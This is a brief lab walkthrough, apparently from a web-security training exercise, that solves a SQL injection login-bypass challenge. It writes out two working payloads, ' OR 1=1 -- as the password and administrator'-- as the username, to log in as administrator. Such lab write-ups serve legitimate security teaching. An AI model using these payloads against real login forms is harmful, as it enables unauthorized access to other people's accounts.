


# Lab 2:

---
This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the **administrator** user. 
## lab walkthrough:

---

---
- as we can see here the login page, username is **administrator** and we dont know the password, i tried **test** as a password:

---
- lets try put this on the password: **' OR 1=1 --**
**username:administrator**
**password:' OR 1=1 --**

---

CONGRATS!!
--- 
and there is another way, put this in the username: **administrator'--**
